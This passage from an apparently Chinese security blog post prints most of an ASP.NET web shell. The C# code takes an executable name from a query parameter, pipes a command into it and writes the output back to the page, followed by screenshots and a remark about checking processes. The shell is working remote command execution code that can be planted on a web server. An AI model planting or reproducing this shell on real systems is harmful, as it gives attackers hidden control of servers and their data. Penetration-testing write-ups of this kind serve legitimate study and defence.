   string shell= Request.QueryString["shell"];
  //www.moonsec.com moon
 // Response.Write(shell + ok );
  Response.Write("&lt;pre&gt;");
  Response.Write(GetCmd(ok,shell));
  Response.Write("&lt;/pre&gt;");
}

private string GetCmd(string cmd,string shell)
{
  string ok = string.Empty;
   Process p = new Process();
            p.StartInfo.FileName = shell;
            p.StartInfo.UseShellExecute = false;
            p.StartInfo.RedirectStandardInput = true;
            p.StartInfo.RedirectStandardOutput = true;
            p.StartInfo.RedirectStandardError = true;
            p.StartInfo.CreateNoWindow = true;
            string strOutput = null;
            try
            {
                p.Start();
                p.StandardInput.WriteLine(cmd);
				Response.Write(cmd);
                p.StandardInput.WriteLine("exit");
                ok = p.StandardOutput.ReadToEnd();
                p.WaitForExit();
                p.Close();
             }
            catch (Exception ex)
             {
			  Response.Write("&lt;pre&gt;");
			  Response.Write(ex);
			  Response.Write("/&lt;pre&gt;");
                 }
  return ok;
}
&lt;/script&gt;
&lt;/head&gt;
&lt;body&gt;
&lt;/body&gt;
&lt;/html&gt;</code></pre>

<img class="alignnone size-full wp-image-217" src="http://www.cuijianxiong.top/wp-content/uploads/2018/02/1-3.png" alt="" width="1182" height="284" srcset="http://www.cuijianxiong.top/wp-content/uploads/2018/02/1-3.png 1182w, http://www.cuijianxiong.top/wp-content/uploads/2018/02/1-3-300x72.png 300w, http://www.cuijianxiong.top/wp-content/uploads/2018/02/1-3-768x185.png 768w, http://www.cuijianxiong.top/wp-content/uploads/2018/02/1-3-1024x246.png 1024w, http://www.cuijianxiong.top/wp-content/uploads/2018/02/1-3-830x199.png 830w, http://www.cuijianxiong.top/wp-content/uploads/2018/02/1-3-230x55.png 230w, http://www.cuijianxiong.top/wp-content/uploads/2018/02/1-3-350x84.png 350w, http://www.cuijianxiong.top/wp-content/uploads/2018/02/1-3-480x115.png 480w" sizes="(max-width: 709px) 85vw, (max-width: 909px) 67vw, (max-width: 1362px) 62vw, 840px" /> 

&nbsp;

看了下进程

&nbsp;

<img class="alignnone size-full wp-image-218" src="http://www.cuijianxiong.top/wp-content/uploads/2018/02/1-4.png" alt="" width="937" height="711" srcset="http://www.cuijianxiong.top/wp-content/uploads/2018/02/1-4.png 937w, http://www.cuijianxiong.top/wp-content/uploads/2018/02/1-4-300x228.png 300w, http://www.cuijianxiong.top/wp-content/uploads/2018/02/1-4-768x583.png 768w, http://www.cuijianxiong.top/wp-content/uploads/2018/02/1-4-830x630.png 830w, http://www.cuijianxiong.top/wp-content/uploads/2018/02/1-4-230x175.png 230w, http://www.cuijianxiong.top/wp-content/uploads/2018/02/1-4-350x266.png 350w, http://www.cuijianxiong.top/wp-content/uploads/2018/02/1-4-480x364.png 480w" sizes="(max-width: 709px) 85vw, (max-width: 909px) 67vw, (max-width: 1362px) 62vw, 840px" /> 
